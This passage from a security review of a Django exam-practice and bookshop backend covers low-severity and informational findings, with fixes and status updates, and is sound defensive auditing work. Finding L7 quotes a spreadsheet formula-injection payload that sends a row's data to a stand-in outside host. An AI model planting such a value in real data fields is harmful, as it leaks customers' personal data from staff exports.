**Fix:** lock the row and check again inside the loop, e.g. `if order.status != PENDING or order.placed_at: continue`
(or add an `only_if_pending` flag to `cancel_order`).

### L3. A second captured payment on an already-paid Razorpay order is ignored

**Where:** `shop/services.py:152-154`.

```python
if payment.status in (Payment.Status.CAPTURED, Payment.Status.REFUNDED):
    return payment.order
```

The function returns before comparing `entity["id"]` with the payment already recorded.

**Scenario:** a late-authorised or duplicate UPI payment is auto-captured on a paid order. It is neither recorded nor
refunded; only `raw_payload` is overwritten. The customer is charged twice until they complain. How often this happens
depends on Razorpay's late-authorisation handling.

**Fix:** if `entity["id"] != payment.razorpay_payment_id`, log an error and refund that payment, through its own
`Payment` and `Refund` rows.

**Status (2026-10-08):** fixed — such a payment is recorded as its own `Payment` (captured) and refunded in full through
a `Refund` row and the refund task, once, with an error log line; the customer gets the refund email and the order stays
paid by the first payment. `start_refund` now skips a payment whose refund is under way, so cancelling such an order
refunds the first payment too. Test: `shop/test_security.py` (l3).

### L4. Coupon codes can be guessed

**Where:** `shop/views.py:156-168`; `api/shop.py:260-272`; `shop/models.py:199-212`.

- The cart's coupon action has no rate limit.
- The API action has only the general 600/minute user throttle.
- The answers differ: "not valid", "has expired", "has been used up", "needs books worth at least …", "already used".

**Scenario:** a script tries likely codes and learns which ones exist, including private or staff-only codes. With M1,
that becomes money.

**Fix:**
- Limit coupon attempts on the web to about 10 per hour per client address (a counter in the coupon branch).
- Add a `coupon` throttle scope to `apply_coupon`.
- Give one message for every unknown or unusable code.

**Status (2026-10-08):** fixed — on the website, 10 coupon attempts an hour per client address (refused while the count
cannot be read); the API's `apply_coupon` has the `coupon` throttle scope (10 an hour per user, `API_THROTTLE_COUPON`);
every unknown or unusable code gets "This code cannot be applied to this cart." Test: `shop/test_security.py` (l4).

### L5. The API password reset can flood a student's inbox

**Where:** `api/auth.py:248-250`; `examleaf/api_settings.py:50`.

- dj-rest-auth's `AllAuthPasswordResetForm.save` sends an email for each matching user. It skips allauth's
  `reset_password` limit (`20/m/ip,5/m/key`), which only allauth's own view applies (`allauth/account/views.py:566`).
- The only limit is 30 per minute per client address.

**Scenario:** 30 reset emails a minute to one student from each address used. The email provider's quota and the
sender's reputation suffer too.

**Fix:** in `PasswordResetSerializer`, call
`ratelimit.consume(request, action="reset_password", key=email.lower())` (`allauth.core.ratelimit`) before saving, or
throttle on the email address.

**Status (2026-10-08):** fixed — `PasswordResetSerializer.validate_email` consumes allauth's `reset_password` limit
keyed on the lower-cased email (allauth's default: 5 a minute per address, 20 a minute per client), counted together
with the website's form; over it the API answers 429. Test: `api/test_security.py` (l5).

### L6. The API's password checks are not limited like log-ins

**Where:** `api/views.py:160-166`, used by `/me/export/` and `/me/deletion/`; dj-rest-auth's `old_password` check.

```python
if not self.context["request"].user.check_password(value):
    raise serializers.ValidationError("Incorrect password.")
```

These failures are not recorded by axes; only the 30/minute scope applies.

**Scenario:** an attacker holds a stolen refresh token (valid for 30 days and renewed on each refresh). At 30 tries a
minute they can make about 1.3 million password guesses, then change the password and lock the student out.

**Fix:**
- Count failures with a per-user cache counter or allauth's `reauthenticate` limit.
- After about 5 failures, blacklist the user's outstanding refresh tokens.

**Status (2026-10-08):** fixed — `api.auth.check_password` (data export, deletion, password change) counts wrong
passwords per user for an hour in the cache; the fifth blacklists every outstanding refresh token of the user and
answers 429, and so does every check until the hour is over. Like the site's other counters it lets requests through
while Redis is down. Test: `api/test_security.py` (l6).

### L7. Formula injection in admin CSV and XLSX exports

**Where:** `accounts/admin.py:13-30`; `shop/admin.py:139-153`; `practice/admin.py:8-21`.

- `IMPORT_EXPORT_ESCAPE_FORMULAE_ON_EXPORT` is unset, so it is False (`import_export/formats/base_formats.py:97`).
- Customer-written names, address lines and notes are exported unchanged. openpyxl stores a string that starts with
  `=` as a formula.

**Scenario:** a guest orders with the delivery name `=HYPERLINK("https://x.example/?"&B2&C2,"Open")`. Staff open the
orders XLSX, and a click sends the row's data to that site.

**Fix:** set `IMPORT_EXPORT_ESCAPE_FORMULAE_ON_EXPORT = True`.

**Status (2026-10-08):** fixed — set. django-import-export removes a leading `=` only: in a CSV opened by Excel a cell
that starts with `+`, `-` or `@` is still read as a formula (open CSVs through Data → From Text, or use the XLSX export,
where only `=` makes a formula). Test: `accounts/test_security.py` (m5, l7).

### L8. One Redis for both queue and cache, with no memory limit; cache keys follow any query string; rate limits stop when Redis is down

**Where:** `docker-compose.yml:43-46`; `api/views.py:63-67`; `examleaf/settings.py:107-113`; `shop/views.py:62`.

```yaml
command: ["redis-server", "--appendonly", "yes"]          # no maxmemory; Celery queue (db 0) and cache (db 1) together
```
```python
if (count or 0) > limit:  # None: the cache (Redis) is down; let the request through
```

`cache_page` keys on the full URL, so `/api/v1/books/?x=1` through `?x=n` each store a copy for 15 minutes.

**Scenario:**
- An anonymous client at the anonymous throttle (200/minute per address) adds hundreds of MB to Redis, and more with
  several addresses.
- Redis or PostgreSQL is then killed for lack of memory, and queued emails and refunds stall.
- While Redis is down, the lookup, coupon and log-in limits are off.

**Fix:**
- Run a separate Redis for the cache with `--maxmemory 256mb --maxmemory-policy allkeys-lru`, and keep the queue
  instance at `noeviction`.
- Cache only canonical URLs: drop unknown query parameters before caching.
- Make the guest lookup refuse requests while its counter cannot be read.

**Status (2026-10-08):** partly fixed — docker-compose.yml runs `redis-cache` (`--maxmemory 256mb --maxmemory-policy
allkeys-lru`, not saved to disk) for `CACHE_URL`, and the queue's `redis` with `--maxmemory-policy noeviction`
(settings.py and `.env.example` say so). The shop's limits (order lookup, checkout, place order, coupon codes) refuse
while their count cannot be read; Razorpay's webhooks go on. Open: canonical cache keys for the public API lists, which
are cached in `api/views.py` (`cached()`), the other builder's file: see the note below. Tests: `shop/test_security.py`
(l8, m2).

**For the other builder (api/views.py, ops/tests.py), from the shop work:**
1. `cached()` in `api/views.py`: before `cache_page` computes its key, keep only the query parameters the viewset
   knows (`page`, `page_size`, `search`, `ordering`, `format` and its `filterset_fields`), e.g. by rebuilding
   `request.GET` and `QUERY_STRING` from them, so that `?x=1` … `?x=n` share the canonical URL's entry.
2. `ops/tests.py::test_the_site_keeps_working_while_redis_is_down` asserts that the guest lookup goes through while
   Redis is down (`== 200`, line 56). It now refuses: expect 429 (the decision for M2 and L8).

**Status (2026-10-08), api part:** done — `cached()` in `api/views.py` keeps only the parameters a viewset reads
(`page`, `page_size`, `search`, `ordering`, `format` and its filters), sorted, before `cache_page` makes its key (the
view sees the same), so `?x=1` … `?x=n` share one entry; `ops/tests.py` expects the 429. Test:
`api/test_security.py` (l8).

### L9. "Download my data" and account deletion miss some records

**Where:** `accounts/views.py:97-118`; `accounts/models.py:189-195`; `practice/models.py:21-22, 38-39`;
`shop/models.py:261-262`.

**Export:** it leaves out payments (method; the payloads of M6), the order status history, and failed log-ins
recorded under the email.

**Deletion:** it rewrites the admin `LogEntry.object_repr` only for `User` and `TeacherProfile`. Two other models put
personal data into admin history rows that survive the purge:

```python
return f"{self.user} {self.paper} {self.marks_obtained}"  # practice/models.py:22, the user's email
return f"{self.name}, {self.city} {self.pin}"  # shop/models.py:262
```

**Fix:**
- Add payments (allowlisted fields) and the order timeline to `export_user_data`.
- In `complete()`, also rewrite log entries for the user's attempts, answer sheets and addresses, or make their
  `__str__` free of personal data, as `TeacherProfile`'s already is.

### L10. Supply chain, image and CI

**Where:** `requirements.txt:25, 35-40`; `Dockerfile:2, 12-13`; `.github/workflows/ci.yml:30-31, 36`.

```text
django-celery-beat @ https://github.com/celery/django-celery-beat/archive/e5e21ddbf43fdb3442b2cd7c6272dd0bf1c33d26.tar.gz
```

**The pinned django-celery-beat commit:** acceptable for now.
- It comes from upstream's official repository, and the commit SHA fixes the source tree.
- The downloaded archive's bytes are not checked (no `#sha256=`), its build code runs at install, and it is
  unreleased code.
- Return to django-celery-beat 2.10 or later on PyPI as soon as it is out.

**Other gaps:**
- Every other requirement is pinned by version only, with no hashes (`--require-hashes` is not used).
- pytest, Faker, ruff, coverage and django-debug-toolbar are installed in the production image.
- `FROM python:3.14-slim` follows a moving tag.
- The CI actions are pinned by tag (`actions/checkout@v5`).
- The workflow has no `permissions:` block.
- There is no dependency audit.

**Fix:**
- Lock with hashes (`pip-compile --generate-hashes` or `uv pip compile --generate-hashes`).
- Add `#sha256=…` to the git URL, or vendor a built wheel.
- Split out a `requirements-dev.txt`.
- Pin the base image by digest and the actions by commit SHA.
- Add `permissions: contents: read` to the workflow.
- Add `pip-audit` to CI.

**Status (2026-10-08):** partly fixed, as decided — `permissions: contents: read`; `requirements-dev.txt` (pytest,
pytest-django, pytest-cov, factory_boy, Faker, ruff, coverage, django-debug-toolbar and their pins) split from
`requirements.txt`, which the image installs alone (Makefile, CI, README; the toolbar loads only when installed); a
`dependency-audit` CI job runs pip-audit with `continue-on-error: true`. Open: hash-locking, the git archive's
`#sha256=`, images by digest and actions by SHA, listed as next steps in DEPLOYMENT.md section 14. Test:
`ops/test_security.py` (l10).

### L11. Authentication strength below ASVS level 2

**Where:** `examleaf/settings.py:123-128`; no `PASSWORD_RESET_TIMEOUT` or `SESSION_COOKIE_AGE` setting.

- The minimum password length is 8 (`MinimumLengthValidator` default), with no breached-password check.
- Reset links stay valid for 3 days.
- Sessions last two weeks for everyone.

**Fix:**
- `min_length` 10 for students and 12 for staff.
- A breached-password validator (Pwned Passwords k-anonymity).
- `PASSWORD_RESET_TIMEOUT = 3600`.
- Shorter staff sessions (see H2).

**Status (2026-10-08):** fixed — minimum length 10 for everyone (not 12 for staff: they have a second factor now);
pwned-passwords-django 5.2.0 (installs and works on Python 3.14 and Django 6.1; httpx and its dependencies pinned; when
the service cannot be reached within a second Django's common-password list decides; httpx's request log is silenced,
it named the hash prefix); `PASSWORD_RESET_TIMEOUT = 3600`; staff sessions 8 hours (H2). The tests never call the
service (`conftest.py`). Test: `accounts/test_security.py` (l11).

### L12. Attempt notes and the number of attempts are unbounded

**Where:** `practice/models.py:16`; `api/views.py:142-157`.

```python
notes = models.TextField("what to revise", blank=True)
```

There is no length limit and no per-user cap. The API allows 600 requests a minute, each up to 1 MB.

**Scenario:** one account adds hundreds of MB a minute. The data export and the My record page then load all of it.

**Fix:** limit notes to about 2,000 characters in the form and serializer, and cap attempts per user and paper (or
per day).

**Status (2026-10-08):** fixed — notes: the 2,000-character limit was already in the form and the serializer, now
tested; `practice.models.check_can_save`: at most 20 new attempts of one paper a day per student, in the form and the
API (400 with the reason). Test: `api/test_security.py` (l12).

---

## Informational

- **I1. Unsafe example settings.** `.env.example:6` has `DEBUG=1` and `.env.example:9` has
  `SECRET_KEY=dev-only-change-me`. Copying the file without editing it (`DEPLOYMENT.md:43`) keeps both. Fail at start
  when `DEBUG` is on with non-local `ALLOWED_HOSTS`, or when the key starts with `dev-` or is shorter than 50
  characters.
  **Status (2026-10-08):** fixed — settings.py ends with a SystemExit and the reason in both cases (local: `localhost`,
  `127.0.0.1`, `[::1]`, `*.localhost`); the CI's and the Dockerfile's dummy keys are 50+ characters. Test:
  `ops/test_security.py` (i1).
- **I2. Public API schema and docs.** `/api/schema/`, `/api/docs/` and `/api/redoc/` are open
  (`examleaf/api_urls.py:14-16`). That is fine for a public app API. Otherwise set
  `SPECTACULAR_SETTINGS["SERVE_PERMISSIONS"]` to admin-only in production.
- **I3. QR images.** `content/views.py:75` (`get_object_or_404(Paper, code__iexact=code)`) ignores `is_published`, so
  it confirms which unpublished paper codes exist, and it renders a new PNG on every call. Filter on
  `is_published=True` and cache the image.
  **Status (2026-10-08):** fixed — published papers only, and `cache_page` for a day (also the browsers' max-age).
  Test: `ops/test_security.py` (i3).
- **I4. Ordering parameters.** `ProductViewSet`, `AddressViewSet`, `BoardViewSet` and `SubjectViewSet` set no
  `ordering_fields`, so DRF accepts any serializer field. A name like `?ordering=mrp__amount` may return a 500. No data
  is exposed. Set `ordering_fields` explicitly.
  **Status (2026-10-08), shop part:** fixed — `ProductViewSet` sorts by `title` and `price` only, `AddressViewSet` by
  `created` only; other names are ignored. Test: `shop/test_security.py` (i4).
  **Status (2026-10-08), boards and subjects:** fixed — `ordering_fields = ["id", "name"]` on both. Test:
  `api/test_security.py` (i4).
- **I5. Keys and tokens.**
  - The breach recipe says to "rotate everything above" (`RUNBOOK.md:46`). The SECRET_KEY recipe it points to keeps
    the old key in `SECRET_KEY_FALLBACKS` (`:37-38`), which leaves a leaked key valid for sessions and reset links for
    two weeks. In a breach, rotate without a fallback.
  - JWTs are signed with `SECRET_KEY` (`api_settings.py:59-60`).
  - simplejwt does not detect reuse of a refresh token.
  - Consider a separate `SIGNING_KEY`, and blacklisting all of a user's tokens when a revoked refresh token is
    presented.
  **Status (2026-10-08):** fixed — RUNBOOK.md's breach recipe rotates SECRET_KEY without a fallback, and the JWT key;
  `JWT_SIGNING_KEY` (SECRET_KEY while unset) in api_settings.py, DEPLOYMENT.md and `.env.example`. Not done: detecting
  the reuse of a revoked refresh token. Test: `ops/test_security.py` (i5).
- **I6. Hardening.**
  - `style-src` allows `'unsafe-inline'` (`settings.py:177`).
  - There is no `Permissions-Policy` header.
  - Razorpay's `checkout.js` loads without SRI (`pay.html:36`). Razorpay does not version it, and only the payment
    page allows it.
  - WeasyPrint runs with its default URL fetcher and `base_url=BASE_DIR` (`invoices.py:110`). The templates escape
    their data, but a fetcher that refuses everything except local static files would keep a future template mistake
    from becoming a local-file or SSRF read.
    **Status (2026-10-08), shop part:** fixed — the PDFs are rendered with `invoices.static_files_only()`: data: URLs
    and files under `STATIC_ROOT` and `STATICFILES_DIRS` only (paths resolved, so `..` cannot leave them); anything
    else raises and WeasyPrint leaves it out. Test: `shop/test_security.py` (i6).
  **Status (2026-10-08), headers:** fixed — `Permissions-Policy: camera=(), microphone=(), geolocation=(),
  payment=(self)` on every response (`examleaf.middleware.PermissionsPolicyMiddleware`). `style-src` keeps
  `'unsafe-inline'`, now explained in settings.py: KaTeX draws each formula with style attributes, which hashes cannot
  cover. Should a Payment Request flow inside Razorpay's iframe stop working, allow it with
  `payment=(self "https://api.razorpay.com")`. SRI for checkout.js stays impossible (unversioned). Test:
  `ops/test_security.py` (i6).
- **I7. Periodic tasks are editable by the ADMIN role.** `ADMIN: ALL` (`roles.py:52`) includes the admin-editable
  django-celery-beat periodic tasks (`settings.py:214`). An ADMIN member can schedule any registered task with any
  arguments: `ops.tasks.send_email` to any address with any text, or `shop.tasks.generate_invoice` for an unpaid order
  (which uses up a real invoice number). Leave `django_celery_beat`, `django_celery_results` and
  `auth.change_permission` to superusers.
  **Status (2026-10-08):** fixed — `roles.SUPERUSER_ONLY`: ADMIN gets every permission except the add, change and
  delete ones of django_celery_beat, django_celery_results, auth (groups, permissions) and mfa (it may view them);
  `bootstrap_roles`, run at every start, updates the existing group. The user admin also keeps `is_superuser`, `groups`
  and `user_permissions` read-only for non-superusers, and only a superuser changes a superuser (password included):
  otherwise ADMIN could make itself superuser. So only superusers give or take roles now. Tests:
  `accounts/test_security.py` (i7), `accounts/test_roles.py`.

---

## Checked and sound

- **Payments.**
  - Checkout's return is HMAC-checked with the key secret and tied to this order's Razorpay order id
    (`payments.py:83-90`).
  - The payment is then fetched from Razorpay; the browser's data is never trusted (`payments.py:99-106`).
  - Amount in paise and currency are compared before an order is marked paid; a mismatch is refunded
    (`services.py:159-162`).
  - Webhooks:
    - verified over the raw body, and refused when no secret is set;
    - recorded once by event id and by body hash, in the same transaction as their effects;
    - refused after 7 days (`payments.py:115-137`).
  - Capture is idempotent under row locks. Stock rows are locked in id order. Refunds are capped at the amount paid,
    with one live refund per payment. Statuses change only through state-machine transitions, and orders and invoices
    cannot be deleted in the admin.
- **Authorisation.**
  - Attempts, addresses, orders, invoices and credit notes are scoped to `request.user`, or to the order the session
    was granted.
  - The checkout address must belong to the user (`api/shop.py:437-440`).
  - Totals come only from the server.
  - `ProfileSerializer` makes email, date of birth and parent fields read-only, and no serializer exposes
    `user`/`is_staff`.
- **Input and output.**
  - Markdown is rendered with raw HTML off and the maths escaped; KaTeX runs without `trust`.
  - Templates autoescape, and the Razorpay options go through `json_script`.
  - Product media are served only for files a product names; `media/` is not public.
  - Database access goes through the ORM only.
  - Request size limits: Caddy 10 MB, Django 1 MB.
  - Indian PIN and mobile validators are applied in the forms, the models and the API.
- **Transport.**
  - HSTS and secure cookies are on.
  - The CSP pins KaTeX to its folder with SRI, and allows Razorpay only on the payment page.
  - `frame-ancestors 'none'`.
  - CORS is closed by default and sends no credentials.
  - CSRF tokens are on every form, and DRF's session authentication enforces CSRF. The webhook is the only
    `csrf_exempt` view.
- **Tokens.**
  - Access tokens last 15 minutes; refresh tokens rotate and the old ones are blacklisted.
  - A password-hash claim makes a password change or an account deletion invalidate the access tokens.
  - Inactive users are refused.
- **Enumeration.** Sign-up, reset and log-in answer the same whether or not an account exists (allauth's
  prevent-enumeration; the API's sign-up uses `try_save`).
- **Secrets.**
  - Secrets come only from the environment. `.env` and `.dev-credentials.local` are git-ignored and were never
    committed (history checked), and no keys appear in tracked files.
  - The container runs as uid 1000, with the code owned by root.
  - PostgreSQL and Redis are not published outside the compose network.
- **Logging.**
  - Caddy overwrites `X-Request-ID`.
  - The JSON logs leave out Celery's task arguments, and axes masks usernames and addresses in its log lines.
  - Sentry runs with `send_default_pii=False` and withholds Celery's task arguments (M4 is the exception).
- **Privacy.**
  - Consent records store the policy version and a keyed hash of the address.
  - Deletion has a 7-day grace period with cancel. It erases answer-sheet files after commit, plus addresses and the
    cart.
  - The restore procedure erases deleted accounts again.

## Suggested order

1. H1 and H2 now.
2. M1, M2 and M4: small, contained changes.
3. M5 and M6: settings and a data migration.
4. M3 before going live.
5. M7.
6. M8 before enabling cash on delivery.
7. M9 before the DPDP parental-consent rule applies.
8. M10, then the Low items.

## Related documents

- [SECURITY_REVIEW_PHASE5_6.md](SECURITY_REVIEW_PHASE5_6.md): the review of phases 5 and 6, which carries on from this one
- [Phase B's authorization review](../docs/security/phase-b-authorization-review.md): the panel's staff API and public endpoints
- [RESILIENCE.md](RESILIENCE.md): the timeouts, locks and limits of the backend
- [DEPLOYMENT.md](DEPLOYMENT.md): section 14, the security settings of a deployment
- [RUNBOOK.md](RUNBOOK.md): secrets and key rotation, staff accounts and incidents
- [CHANGELOG.md](CHANGELOG.md): what changed, by phase
- [README.md](README.md): the backend as it is now
